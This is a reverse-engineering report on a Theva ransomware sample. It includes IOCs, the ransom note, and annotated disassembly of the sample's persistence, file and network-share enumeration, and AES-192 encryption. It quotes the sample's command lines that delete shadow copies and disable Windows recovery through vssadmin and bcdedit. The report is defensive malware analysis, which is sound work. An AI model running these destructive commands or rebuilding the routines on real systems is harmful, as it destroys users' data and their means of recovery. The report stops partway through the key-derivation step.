# Theva Ransomware

## Overview

This is my report for a Theva ransomware sample. The report describes the main functionality of the ransomware and it shows detailed information about main routines.

I tried my best when doing the analysis, specially on the crypto part given that I'm not very knowledgeable about that topic. Anyway, if you find any error, inaccuracy, typo, wrong explanation, whatever; please, feel free to ping me in order to fix it.

## IOCs

This sample is a 32-bit executable file:

SHA-256: 6b0f68d95891e27e96bdcdf54e8176d4864f65a2f9d3d75c156a0ba68c4b01a4

Sample: https://www.virustotal.com/gui/file/6b0f68d95891e27e96bdcdf54e8176d4864f65a2f9d3d75c156a0ba68c4b01a4



## Infection chain

The infection occurs as in most of these cases, via unprotected RDP configurations, email spam and malicious attachments, spoofing downloads, botnets, exploits, malicious ads, web injections, fake updates, repackaged and infected installers. Currently, there are no reports of targeted attacks using Theva ransomware.

## Ransom Note

The ransom note is written in plain text format and is dropped into `#_README_#.inf` files on the system.

```
All your files have been encrypted due to a security problem with your PC.
If you want to restore them, write us to the e-mail: sql772@aol.com
You have to pay for decryption in Bitcoins. The price depends on how fast you write to us.
After payment we will send you the decryption tool that will decrypt all your files.

FREE DECRYPTION AS GUARANTEE
Before paying you can send to us up to 3 files for free decryption.
Please note that files must NOT contain valuable information
and their total size must be less than 10Mb

How to obtain Bitcoins
The easiest way to buy bitcoin is LocalBitcoins site.
You have to register, click Buy bitcoins and select the seller
by payment method and price
https://localbitcoins.com/buy_bitcoins

Attention!
Do not rename encrypted files
Do not try to decrypt your data using third party software, it may cause permanent data loss
If you not write on e-mail in 3 days - your key has been deleted and you cant decrypt your files

Your ID: 

uGJ7S9tYffRzbUAM/k86FQuNR2nTUdxKeiRKXsFQg2aD98W+YlFA3P7iHrig5JmtpbtZoU9PF7L6M5pE0KS7uOqJYXpa9sTJGxvfWCUUZG7tAx/G+4bP2C2zAavleF3fER0d0TS5rx0NX/BI2Dqj06vlf/yEl95hedmlsEhqEsI=
```

# Static Code Analysis

## Main

In the first place, the ransomware tries to guess if it is its first run. It gets a handle to the current module and then gets the filename of the current process. Finally, it compares the obtained filename against a hardcoded filename, *zmsksddfff.exe* in this case: 

```nasm
.text:010C3F91 push    104h            ; nSize
.text:010C3F96 push    ecx             ; lpFilename
.text:010C3F97 push    eax             ; hModule
.text:010C3F98 mov     [ebp-1AE4h], eax
.text:010C3F9E call    ds:GetModuleFileNameA
.text:010C3FA4 push    offset aZmsksddfffExe ; "zmsksddfff.exe"
.text:010C3FA9 lea     eax, [ebp-268h]
.text:010C3FAF push    eax             ; pszPath
.text:010C3FB0 call    ds:PathFindFileNameA
.text:010C3FB6 push    eax             ; lpString1
.text:010C3FB7 call    ds:lstrcmpiA
.text:010C3FBD test    eax, eax
.text:010C3FBF jnz     loc_10C46A5
```

If filenames don't match, it starts by generating a random value based on `rand()` that it will be used later to generate the user ID present in the ransom note:

```nasm
.text:010C46A5 loc_10C46A5:
.text:010C46A5 mov     ecx, 19h
.text:010C46AA call    generate_random_value
.text:010C46AF mov     random_value_str, eax
.text:010C46B4 lea     eax, [ebp-1978h]
.text:010C46BA push    eax             ; lpSystemTime
.text:010C46BB call    ds:GetLocalTime
.text:010C46C1 movzx   eax, word ptr [ebp-1972h]
.text:010C46C8 mov     edi, ds:wsprintfA
.text:010C46CE push    eax
.text:010C46CF movzx   eax, word ptr [ebp-1976h]
.text:010C46D6 push    eax
.text:010C46D7 movzx   eax, word ptr [ebp-1978h]
.text:010C46DE push    eax
.text:010C46DF push    random_value_str ; build string with random_value_str and local time
.text:010C46E5 push    offset aSx      ; "SX"
.text:010C46EA push    offset aSSD02d02d ; "%s-%s-%d-%02d-%02d"
.text:010C46EF push    offset _Ptr     ; LPSTR
.text:010C46F4 call    edi ; wsprintfA
.text:010C46F6 add     esp, 1Ch
.text:010C46F9 lea     ecx, [ebp-1B10h] ; this
.text:010C46FF push    offset _Ptr     ; _Ptr
.text:010C4704 call    std::string::string(char const * const) ; convert formated string to c++ ::string
```

The random string value has the following format **Kv592f6rPQ7gwET9lN60f99Vs** and the final formatted string has the following format: **SX-Kv592f6rPQ7gwET9lN60f99Vs-2023-03-21**.

Then, this value is used inside the `sub_010C7750` (renamed to `encrypt_random_value`) function to generate the `ransom_note_id` value and then encrypted by using a 1024-bit RSA public key:

```nasm
.text:010C4709 lea     eax, [ebp-1AE8h]
.text:010C470F push    eax             ; int
.text:010C4710 lea     eax, [ebp-1B10h]
.text:010C4716 push    eax             ; Src
.text:010C4717 call    encrypt_random_value
.text:010C471C lea     ecx, [ebp-1B10h]
.text:010C4722 mov     esi, eax
.text:010C4724 call    convert_to_ascii_string
.text:010C4729 push    dword ptr [ebp-1AE8h]
.text:010C472F mov     edx, esi
.text:010C4731 lea     ecx, [ebp-1B28h]
.text:010C4737 call    sub_10C11B0
.text:010C473C add     esp, 4
.text:010C473F mov     ecx, offset ransom_note_id ; this
.text:010C4744 push    eax             ; _Right
.text:010C4745 call    std::string::operator=(std::string &&)
.text:010C474A lea     ecx, [ebp-1B28h]
.text:010C4750 call    convert_to_ascii_string
```

The RSA public key is hardcoded into the sample and is the following:

```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQD3x8bWWywq90m/s+PR5F452Lq6lHrZiF2+1Zy1eqF4sL0VIyDC6dK7Na62MrY7z5LENt/eBzSKNeI+2I1QtrqcCiVP37b2REEsyd8vRVa1nGPfkGaBlVBSCZAyeJ0OqZ+L638fXE5X39T/ReM3V7U7aynwEPZI7x74Uxt3f30CjQIDAQAB
-----END PUBLIC KEY-----
```

Here's some information about the RSA key:



Then, function `sub_010C34C0` (renamed as `copy_ransom_binary_and_note`) is called:

```nasm
.text:010C34E4 lea     eax, [ebp+var_C]
.text:010C34E7 mov     large fs:0, eax
.text:010C34ED push    104h            ; nSize
.text:010C34F2 lea     eax, [ebp+Filename]
.text:010C34F8 push    eax             ; lpFilename
.text:010C34F9 push    ecx             ; hModule
.text:010C34FA call    ds:GetModuleFileNameW
.text:010C3500 push    100h            ; nSize
.text:010C3505 lea     eax, [ebp+Dst]
.text:010C350B push    eax             ; lpDst
.text:010C350C push    offset Src      ; "%APPDATA%"
.text:010C3511 call    ds:ExpandEnvironmentStringsW
.text:010C3517 mov     esi, ds:wsprintfW
.text:010C351D lea     eax, [ebp+Dst]
.text:010C3523 push    eax
.text:010C3524 lea     eax, [ebp+NewFileName]
.text:010C352A push    offset aSZmsksddfffExe ; "%s\\zmsksddfff.exe"
.text:010C352F push    eax             ; LPWSTR
.text:010C3530 call    esi ; wsprintfW
.text:010C3532 add     esp, 0Ch
.text:010C3535 lea     eax, [ebp+Dst]
.text:010C353B push    eax
.text:010C353C lea     eax, [ebp+var_E20]
.text:010C3542 push    offset aSReadmeInf ; "%s\\#_README_#.inf"
.text:010C3547 push    eax             ; LPWSTR
.text:010C3548 call    esi ; wsprintfW
.text:010C354A add     esp, 0Ch
.text:010C354D lea     eax, [ebp+var_ED0]
.text:010C3553 push    0B0h            ; Size
.text:010C3558 push    0               ; Val
.text:010C355A push    eax             ; void *
.text:010C355B call    _memset
.text:010C3560 lea     eax, [ebp+var_E20]
.text:010C3566 push    eax
.text:010C3567 lea     ecx, [ebp+var_ED0]
.text:010C356D call    write_data_to_file
.text:010C3572 ;   try {
.text:010C3572 mov     [ebp+var_4], 0
.text:010C3579 lea     ecx, [ebp+var_ED0]
.text:010C357F cmp     dword_110654C, 10h
.text:010C3586 mov     edx, offset ptr_to_ransom_note_text
.text:010C358B push    dword_1106548
.text:010C3591 cmovnb  edx, ptr_to_ransom_note_text
.text:010C3598 call    write_to_ransom_note // write template text
.text:010C359D add     esp, 4
.text:010C35A0 push    eax
.text:010C35A1 call    sub_10C6FD0
.text:010C35A6 add     esp, 4
.text:010C35A9 lea     ecx, [ebp+var_ED0]
.text:010C35AF cmp     dword ptr qword_1106560+4, 10h
.text:010C35B6 mov     edx, offset ransom_note_id
.text:010C35BB cmovnb  edx, dword ptr ransom_note_id
.text:010C35C2 push    dword ptr qword_1106560
.text:010C35C8 call    write_to_ransom_note // write user id value
```

Initially, the path for the `%APPDATA%` environment variable is obtained and used in a format string to build the final path for the binary that is going to be dropped and the ransom note. In this case, the path is `C:\Users\ThaUser\AppData\Roaming`. Then, the data to the ransom note is written in two parts. The first part contains the template text and the final part contains the generated `User ID`.

Then, the current executable file that is being executed is copied into the `%APPDATA%` path:

```nasm
.text:010C3613 loc_10C3613:            ; bFailIfExists
.text:010C3613 push    0
.text:010C3615 lea     eax, [ebp+NewFileName]
.text:010C361B push    eax             ; lpNewFileName
.text:010C361C lea     eax, [ebp+Filename]
.text:010C3622 push    eax             ; lpExistingFileName
.text:010C3623 call    ds:CopyFileW
.text:010C3629 test    eax, eax
.text:010C362B jz      loc_10C36BE
```

Finally, the path to the recently copied binary is added to `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` in order to run it on every reboot:

```nasm
.text:010C3631                 lea     eax, [ebp+NewFileName]
.text:010C3637                 push    eax
.text:010C3638                 lea     eax, [ebp+Filename]
.text:010C363E                 push    offset aS       ; "\"%s\""
.text:010C3643                 push    eax             ; LPWSTR
.text:010C3644                 call    esi ; wsprintfW
.text:010C3646                 add     esp, 0Ch
.text:010C3649                 lea     eax, [ebp+phkResult]
.text:010C364F                 push    eax             ; phkResult
.text:010C3650                 push    2               ; samDesired
.text:010C3652                 push    0               ; ulOptions
.text:010C3654                 push    offset SubKey   ; "Software\\Microsoft\\Windows\\CurrentVe"...
.text:010C3659                 push    HKEY_CURRENT_USER ; hKey
.text:010C365E                 call    ds:RegOpenKeyExW
.text:010C3664                 test    eax, eax
.text:010C3666                 jnz     short loc_10C36BE
.text:010C3668                 mov     esi, ds:RegSetValueExW
.text:010C366E                 lea     eax, [ebp+NewFileName]
.text:010C3674                 push    208h            ; cbData
.text:010C3679                 push    eax             ; lpData
.text:010C367A                 push    1               ; dwType
.text:010C367C                 push    0               ; Reserved
.text:010C367E                 push    offset ValueName ; "xcz"
.text:010C3683                 push    [ebp+phkResult] ; hKey
.text:010C3689                 call    esi ; RegSetValueExW
.text:010C368B                 push    800h            ; cbData
.text:010C3690                 lea     eax, [ebp+var_E20]
.text:010C3696                 push    eax             ; lpData
.text:010C3697                 push    1               ; dwType
.text:010C3699                 push    0               ; Reserved
.text:010C369B                 push    offset aInfo    ; "info"
.text:010C36A0                 push    [ebp+phkResult] ; hKey
.text:010C36A6                 call    esi ; RegSetValueExW
.text:010C36A8                 push    [ebp+phkResult] ; hKey
.text:010C36AE                 mov     esi, eax
.text:010C36B0                 call    ds:RegCloseKey
```

The last step is to execute the binary copied into `%APPDATA%` by calling `ShellExecute`:

```nasm
.text:010C4760 push    100h            ; nSize
.text:010C4765 lea     eax, [ebp-368h]
.text:010C476B push    eax             ; lpDst
.text:010C476C push    offset aAppdata_1 ; "%APPDATA%"
.text:010C4771 call    ds:ExpandEnvironmentStringsA
.text:010C4777 lea     eax, [ebp-368h]
.text:010C477D push    eax
.text:010C477E lea     eax, [ebp-470h]
.text:010C4784 push    offset aSZmsksddfffExe_0 ; "%s\\zmsksddfff.exe"
.text:010C4789 push    eax             ; LPSTR
.text:010C478A call    edi ; wsprintfA
.text:010C478C add     esp, 0Ch
.text:010C478F lea     eax, [ebp-268h]
.text:010C4795 push    0               ; nShowCmd
.text:010C4797 push    0               ; lpDirectory
.text:010C4799 push    eax             ; lpParameters
.text:010C479A lea     eax, [ebp-470h]
.text:010C47A0 push    eax             ; lpFile
.text:010C47A1 push    offset aOpen_0  ; "open"
.text:010C47A6 push    0               ; hwnd
.text:010C47A8 call    ds:ShellExecuteA
.text:010C47AE push    0               ; uExitCode
.text:010C47B0 call    ds:ExitProcess
```

As the reader probably noted, no file encryption was performed so far.

As the newly created process has the expected filename, the `JNZ` jump at `010C3FBF` is not taken and the ransomware execute some other tasks such as the creation of a mutex in order to know if the ransomware binary was already executed, file enumeration and encryption. Some of these tasks are going to be described in detail in the following sections.

## Drives enumeration

As a previous step before enumerating files, the ransomware enumerates the available local drives by using `GetLogicalDrives`: 

```nasm
.text:010C3DD5                 call    ds:GetLogicalDrives
.text:010C3DDB                 xor     edi, edi
.text:010C3DDD                 mov     [ebp+var_30], eax
.text:010C3DE0                 xor     esi, esi
.text:010C3DE2
.text:010C3DE2 loc_10C3DE2:                            ; CODE XREF: get_drives+77↓j
.text:010C3DE2                 mov     edx, 1
.text:010C3DE7                 mov     ecx, esi
.text:010C3DE9                 shl     edx, cl
.text:010C3DEB                 test    eax, edx
.text:010C3DED                 jz      short loc_10C3E33
.text:010C3DEF                 lea     eax, [esi+41h]
.text:010C3DF2                 push    eax
.text:010C3DF3                 lea     eax, [ebp+RootPathName]
.text:010C3DF6                 push    offset aC       ; "%c:\\"
.text:010C3DFB                 push    eax             ; LPWSTR
.text:010C3DFC                 call    ds:wsprintfW
.text:010C3E02                 add     esp, 0Ch
.text:010C3E05                 lea     eax, [ebp+RootPathName]
.text:010C3E08                 push    eax             ; lpRootPathName
.text:010C3E09                 call    ds:GetDriveTypeW
.text:010C3E0F                 cmp     esi, 2
.text:010C3E12                 jge     short loc_10C3E19
.text:010C3E14                 cmp     eax, 2
.text:010C3E17                 jz      short loc_10C3E30
.text:010C3E19
.text:010C3E19 loc_10C3E19:                            ; CODE XREF: get_drives+52↑j
.text:010C3E19                 cmp     eax, 3
.text:010C3E1C                 jz      short loc_10C3E28
.text:010C3E1E                 cmp     eax, 2
.text:010C3E21                 jz      short loc_10C3E28
.text:010C3E23                 cmp     eax, 4
.text:010C3E26                 jnz     short loc_10C3E30
```

## File Enumeration

The file enumeration happens at function `sub_010C31F0`. The combination of *FindFirstFileA* and *FindNextFileA* is used to enumerate the files present in the infected computer. The following directories are skipped in the search: *$recycle.bin*, *msocache*, *program files*, *program files (x86)*, *programdata*, *windows*, *nvidia*, *intel*, *appdata* and *temp*:

```nasm
                push    offset aRecycleBin ; "$recycle.bin"
.text:010C3291                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C3297                 push    eax             ; lpString1
.text:010C3298                 call    ebx ; lstrcmpiA
.text:010C329A                 test    eax, eax
.text:010C329C                 jz      goto_exit
.text:010C32A2                 push    offset aMsocache ; "msocache"
.text:010C32A7                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C32AD                 push    eax             ; lpString1
.text:010C32AE                 call    ebx ; lstrcmpiA
.text:010C32B0                 test    eax, eax
.text:010C32B2                 jz      goto_exit
.text:010C32B8                 push    offset aProgramFiles ; "program files"
.text:010C32BD                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C32C3                 push    eax             ; lpString1
.text:010C32C4                 call    ebx ; lstrcmpiA
.text:010C32C6                 test    eax, eax
.text:010C32C8                 jz      goto_exit
.text:010C32CE                 push    offset aProgramFilesX8 ; "program files (x86)"
.text:010C32D3                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C32D9                 push    eax             ; lpString1
.text:010C32DA                 call    ebx ; lstrcmpiA
.text:010C32DC                 test    eax, eax
.text:010C32DE                 jz      goto_exit
.text:010C32E4                 push    offset aProgramdata ; "programdata"
.text:010C32E9                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C32EF                 push    eax             ; lpString1
.text:010C32F0                 call    ebx ; lstrcmpiA
.text:010C32F2                 test    eax, eax
.text:010C32F4                 jz      goto_exit
.text:010C32FA                 push    offset aWindows ; "windows"
.text:010C32FF                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C3305                 push    eax             ; lpString1
.text:010C3306                 call    ebx ; lstrcmpiA
.text:010C3308                 test    eax, eax
.text:010C330A                 jz      goto_exit
.text:010C3310                 push    offset aNvidia  ; "nvidia"
.text:010C3315                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C331B                 push    eax             ; lpString1
.text:010C331C                 call    ebx ; lstrcmpiA
.text:010C331E                 test    eax, eax
.text:010C3320                 jz      goto_exit
.text:010C3326                 push    offset aIntel   ; "intel"
.text:010C332B                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C3331                 push    eax             ; lpString1
.text:010C3332                 call    ebx ; lstrcmpiA
.text:010C3334                 test    eax, eax
.text:010C3336                 jz      goto_exit
.text:010C333C                 push    offset aAppdata ; "appdata"
.text:010C3341                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C3347                 push    eax             ; lpString1
.text:010C3348                 call    ebx ; lstrcmpiA
.text:010C334A                 test    eax, eax
.text:010C334C                 jz      goto_exit
.text:010C3352                 push    offset aTemp_0  ; "temp"
.text:010C3357                 lea     eax, [ebp+FindFileData.cFileName]
.text:010C335D                 push    eax             ; lpString1
.text:010C335E                 call    ebx ; lstrcmpiA
.text:010C3360                 test    eax, eax
.text:010C3362                 jz      goto_exit
.text:010C3368 
```

The file extensions considered by the ransomware to be encrypted are many. Please, refer to the [file_extensions.txt](./data/file_extensions.txt) file to see them all.

Once the ransomware finds a suitable file extension to encrypt, it builds the final file name before starting with the encryption routine. The original file name is preserved and an additional extension is added to the original one. The additional extension contains the contact mail of the attacker plus the *.theva* extension. For example, if your file is named `my_file.jpg` then the encrypted file name is `my_file.jpg.[sql772@aol.com].theva`.

```nasm
.text:010C33D1 mov     ecx, edi
.text:010C33D3 call    sub_10C2D10
.text:010C33D8 push    offset aSql772AolCom ; "sql772@aol.com"
.text:010C33DD lea     eax, [ebp+FileName]
.text:010C33E3 push    eax
.text:010C33E4 lea     eax, [ebp+var_4E28]
.text:010C33EA push    offset aSSTheva ; "%s.[%s].theva"
.text:010C33EF push    eax             ; LPSTR
.text:010C33F0 call    ds:wsprintfA
```

Immediately after the file name is built, the original file is encrypted. Once the file is encrypted the original file is deleted:

```nasm
.text:010C3431                 lea     edx, [ebp+var_4E28]
.text:010C3437                 push    edi             ; lpString
.text:010C3438                 lea     ecx, [ebp+FileName] ; lpFileName
.text:010C343E                 movups  xmmword_1103DE0, xmm0
.text:010C3445                 call    encrypt_files
.text:010C344A                 add     esp, 4
.text:010C344D                 test    al, al
.text:010C344F                 jz      short loc_10C346D
.text:010C3451                 lea     eax, [ebp+FileName]
.text:010C3457                 push    eax             ; FileName
.text:010C3458                 call    _remove
.text:010C345D                 add     esp, 4
.text:010C3460                 lea     eax, [ebp+FileName]
.text:010C3466                 push    eax             ; lpFileName
.text:010C3467                 call    ds:DeleteFileA
```

## Enumeration of network resources

The ransomware also enumerates network resources in order to infect files hosted on network drives. This is done as one of the final steps after encrypting local files. The file enumeration and encryption routines are called within the network resources enumeration routine.

The enumeration of network resources is done using the classical *WNetOpenEnumA*, *WNetEnumResourceA* API functions:

```nasm
.text:010C3C07                 push    ebx
.text:010C3C08                 push    esi
.text:010C3C09                 push    edi
.text:010C3C0A                 lea     eax, [ebp+hEnum]
.text:010C3C10                 mov     edi, edx
.text:010C3C12                 push    eax             ; lphEnum
.text:010C3C13                 push    ecx             ; lpNetResource
.text:010C3C14                 push    0               ; dwUsage
.text:010C3C16                 push    0               ; dwType
.text:010C3C18                 push    2               ; dwScope
.text:010C3C1A                 mov     [ebp+Error], edi
.text:010C3C20                 call    ds:WNetOpenEnumA
[..]
.text:010C3C9E loc_10C3C9E:                            ; CODE XREF: enumerate_network_resources+3A↑j
.text:010C3C9E                 lea     eax, [ebp+BufferSize]
.text:010C3CA4                 mov     [ebp+cCount], 0FFFFFFFFh
.text:010C3CAE                 push    eax             ; lpBufferSize
.text:010C3CAF                 lea     eax, [ebp+Buffer]
.text:010C3CB5                 mov     [ebp+BufferSize], 8000h
.text:010C3CBF                 push    eax             ; lpBuffer
.text:010C3CC0                 lea     eax, [ebp+cCount]
.text:010C3CC6                 push    eax             ; lpcCount
.text:010C3CC7                 push    [ebp+hEnum]     ; hEnum
.text:010C3CCD                 call    ds:WNetEnumResourceA
```

## Override Windows Recovery Mechanisms

The ransomware modifies operating system settings in order to avoid the user to recover the files.

 - Delete [Shadow Copies](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)
 
```nasm
.text:010C4530 push    0
.text:010C4532 push    0               ; lpDirectory
.text:010C4534 push    offset Parameters ; "/c vssadmin.exe Delete Shadows /All /Quiet"
.text:010C4539 push    offset File     ; "cmd.exe"
.text:010C453E push    offset Operation ; "open"
.text:010C4543 push    0               ; hwnd
.text:010C4545 call    esi ; ShellExecuteW
```

 - Disable Automatic Repair
 
```nasm
.text:010C4547 push    0               ; nShowCmd
.text:010C4549 push    0               ; lpDirectory
.text:010C454B push    offset aCBcdeditExeSet ; "/c bcdedit.exe /set {default} recoveryenabled No"
.text:010C4550 push    offset File     ; "cmd.exe"
.text:010C4555 push    offset Operation ; "open"
.text:010C455A push    0               ; hwnd
.text:010C455C call    esi ; ShellExecuteW
```

 - Modify BootStatusPolicy
 
```nasm
.text:010C455E push    0               ; nShowCmd
.text:010C4560 push    0               ; lpDirectory
.text:010C4562 push    offset aCBcdeditExeSet_0 ; "/c bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures"
.text:010C4567 push    offset File     ; "cmd.exe"
.text:010C456C push    offset Operation ; "open"
.text:010C4571 push    0               ; hwnd
.text:010C4573 call    esi ; ShellExecuteW
```

By setting `IgnoreAllFailures` it basically says to Windows to start always normally and avoid mechanisms such as Startup Repair.

## File Encryption

The file encryption routine is called inside the `search_files_and_encrypt` (`sub_010C31F0`) function:

```nasm
text:010C4270                 movzx   eax, word ptr [ebp+edi*2-60h]
.text:010C4275                 push    eax
.text:010C4276                 lea     eax, [ebp-160h]
.text:010C427C                 push    offset aC_0     ; "%c:\\"
.text:010C4281                 push    eax             ; LPSTR
.text:010C4282                 call    ds:wsprintfA
.text:010C4288                 add     esp, 0Ch
.text:010C428B                 lea     eax, [ebp-160h]
.text:010C4291                 push    offset aDevice  ; "device"
.text:010C4296                 push    eax             ; lpString1
.text:010C4297                 call    ds:lstrcmpiA
.text:010C429D                 test    eax, eax
.text:010C429F                 jz      short loc_10C42AC
.text:010C42A1                 lea     ecx, [ebp-160h]
.text:010C42A7                 call    search_files_and_encrypt
```

Right at this point:

```nasm
.text:010C3431                 lea     edx, [ebp+var_4E28] ; EDX points to the formatted file name with ".theva" extension
.text:010C3437                 push    edi             ; lpString = this is the value with random_value
.text:010C3438                 lea     ecx, [ebp+FileName] ; lpFileName = original file name
.text:010C343E                 movups  xmmword_1103DE0, xmm0
.text:010C3445                 call    encrypt_files   ; This function encrypts all the files listed by the ransomware.
```

The function uses the Windows Crypto API. It receives the `random_value` generated in the main function and uses it as the initialization value to build the final key that is used to encrypt the files. This value changes in every execution of the malware:



The random value can be seen into the stack window. In this case, the value is **mB1lg3VOJ7tuT37kSlgtX6imjclnsdOLdfD74z**. Also, you can see how `ECX` and `EDX` point to the original file name and the encrypted file name, respectively.

In the first place, it calls two times to the `CreateFileA` function. The first one is to open the original file and the second is to create the encrypted file (without data):

 - Open original file
 
```nasm
.text:010C19E8 push    esi             ; hTemplateFile
.text:010C19E9 push    FILE_ATTRIBUTE_NORMAL ; dwFlagsAndAttributes
.text:010C19EE push    OPEN_EXISTING   ; dwCreationDisposition
.text:010C19F0 push    esi             ; lpSecurityAttributes
.text:010C19F1 push    FILE_SHARE_READ ; dwShareMode
.text:010C19F3 push    1               ; dwDesiredAccess = FILE_LIST_DIRECTORY
.text:010C19F5 push    ecx             ; lpFileName
.text:010C19F6 mov     [ebp+lpFileName], edx
.text:010C19F9 or      ebx, 0FFFFFFFFh
.text:010C19FC mov     [ebp+var_1D], 0
.text:010C1A00 mov     [ebp+phProv], 0
.text:010C1A07 mov     [ebp+phKey], 0
.text:010C1A0E mov     [ebp+phUserKey], 0
.text:010C1A15 mov     [ebp+phHash], 0
.text:010C1A1C call    ds:CreateFileA  ; opens original file
.text:010C1A22 mov     [ebp+hFile], eax
.text:010C1A25 cmp     eax, ebx
.text:010C1A27 jz      loc_10C1CFD
```

 - Create encrypted file
 
```nasm
.text:010C1A2D push    esi             ; hTemplateFile
.text:010C1A2E push    FILE_ATTRIBUTE_NORMAL ; dwFlagsAndAttributes
.text:010C1A33 push    OPEN_ALWAYS     ; dwCreationDisposition
.text:010C1A35 push    esi             ; lpSecurityAttributes
.text:010C1A36 push    FILE_SHARE_READ ; dwShareMode
.text:010C1A38 push    102h            ; dwDesiredAccess = FILE_WRITE_ATTRIBUTES | FILE_ADD_FILE
.text:010C1A3D push    [ebp+lpFileName] ; lpFileName
.text:010C1A40 call    ds:CreateFileA  ; creates encrypted file without data
.text:010C1A46 mov     ebx, eax
.text:010C1A48 mov     [ebp+lpFileName], ebx
.text:010C1A4B cmp     ebx, 0FFFFFFFFh
.text:010C1A4E jz      loc_10C1CFD
```

If some of the calls fails, it continues with the next file in the list.

Next, there are two calls to the [CryptAcquireContextA](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) function:

```nasm
.text:010C1A54 push    0F0000000h      ; dwFlags = CRYPT_VERIFYCONTEXT
.text:010C1A59 push    PROV_RSA_AES    ; dwProvType
.text:010C1A5B push    esi             ; szProvider
.text:010C1A5C push    esi             ; szContainer
.text:010C1A5D lea     eax, [ebp+phProv]
.text:010C1A60 push    eax             ; phProv
.text:010C1A61 call    ds:CryptAcquireContextA
.text:010C1A67 test    eax, eax
.text:010C1A69 jnz     short loc_10C1A83
```

The first call is done with the `dwFlags` parameter set to `CRYPT_VERIFYCONTEXT`. This flag has different meanings but, basically, it is used when `szContainer` is not needed and the encryption is going to be done with keys in memory and nothing is going to persist on disk. The `dwProvType` parameter is set to [PROV_RSA_AES](https://learn.microsoft.com/en-us/windows/win32/seccrypto/prov-rsa-aes) in both cases which means that the RSA public key algorithm is going to be used. Now, if this function call fails, the second attempt is done with `dwFlags` set to `CRYPT_NEWKEYSET` which indicates that a new key container must be created with the name specified by `pszContainer`. However, in this case, `pszContainer` is set to null at the beginning of the function so a default name is created instead:

```nasm
.text:010C1A6B push    CRYPT_NEWKEYSET ; dwFlags
.text:010C1A6D push    PROV_RSA_AES    ; dwProvType
.text:010C1A6F push    eax             ; szProvider
.text:010C1A70 push    eax             ; szContainer
.text:010C1A71 lea     eax, [ebp+phProv]
.text:010C1A74 push    eax             ; phProv
.text:010C1A75 call    ds:CryptAcquireContextA
.text:010C1A7B test    eax, eax
.text:010C1A7D jz      loc_10C1CFD
```

If the second attempt of `CryptAcquireContextA` fails, the function continues with the next file in the list. Otherwise, there are some checks against the `random_value` variable before continuing with the encryption process:

```nasm
.text:010C1A83                 test    edi, edi        ; checks that random_value passed as parameter is not null
.text:010C1A85                 jz      loc_10C1B46
.text:010C1A8B                 cmp     byte ptr [edi], 0 ; it checks if the first byte of random_value is 0
.text:010C1A8E                 jz      loc_10C1B46
.text:010C1A94                 cmp     edi, offset a1  ; checks the random_value agains `1`
.text:010C1A9A                 jz      loc_10C1B46
```

As this value is going to be used later to create the final key to encrypt the file data, if some of these checks fails, the ransomware uses a combination of [CryptGenKey](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptgenkey)/[CryptGetUserKey](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptgetuserkey)/[CryptExportKey](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptexportkey) to create a fresh new key which is then directly used in the [CryptEncrypt](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptencrypt) function call to encrypt file data. The key is created with `Algid` set to [CALG_AES_192](https://learn.microsoft.com/en-us/windows/win32/seccrypto/alg-id) which indicates a 192 bit [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) key.

If checks were fine, the next call is to [CryptCreateHash](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash):

```nasm
.text:010C1AA0 lea     eax, [ebp+phHash]
.text:010C1AA3 push    eax             ; phHash
.text:010C1AA4 push    0               ; dwFlags = reserved
.text:010C1AA6 push    0               ; hKey = 0 = nonkeyed algorithms
.text:010C1AA8 push    CALG_MD5        ; Algid
.text:010C1AAD push    [ebp+phProv]    ; hProv
.text:010C1AB0 call    ds:CryptCreateHash
.text:010C1AB6 test    eax, eax
.text:010C1AB8 jz      loc_10C1CFD
```

The `Algid` parameter is set to [CALG_MD5](https://learn.microsoft.com/en-us/windows/win32/seccrypto/alg-id) which means that the MD5 hashing algorithm is going to be used. The handle to the MD5 hash object is stored in the `phHash` parameter which is defined as follows:

```c
typedef ULONG_PTR HCRYPTHASH;
```

The format of the MD5 hash object depends on the CSP (Crypto Service Provider) set in the `CryptAcquireContextA` call (`PROV_RSA_AES` in this case).

After the call, the ransomware obtains the handle to the MD5 hash object (marked in yellow):



Then, the ransomware calls [CryptHashData](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) with the previously obtained MD5 hash object, the `random_value` string and the length of the string:



In the hexdump window, you can see the function pointers contained in the object. In this case, [CPHashData](https://cpdn.cryptopro.ru/content/csp40/html/group___pro_c_s_p_hash_1g2a5cdde9c76ec548a435bc61559af280.html) (sorry for the Russian reference) is invoked which is almost a wrapper for [BCryptHashData](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcrypthashdata):


You can see the call with almost the same parameters and the inner hash handle.

Once `CryptHashData` returns, there is a call to [CryptDeriveKey](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey) to generate a new key based on the previously hashed value:

```nasm
.text:010C1ADA lea     eax, [ebp+phKey]
.text:010C1ADD push    eax             ; phKey
.text:010C1ADE push    CRYPT_EXPORTABLE ; dwFlags
.text:010C1AE0 push    [ebp+phHash]    ; hBaseData
.text:010C1AE3 push    CALG_AES_192    ; Algid
.text:010C1AE8 push    [ebp+phProv]    ; hProv
.text:010C1AEB call    ds:CryptDeriveKey
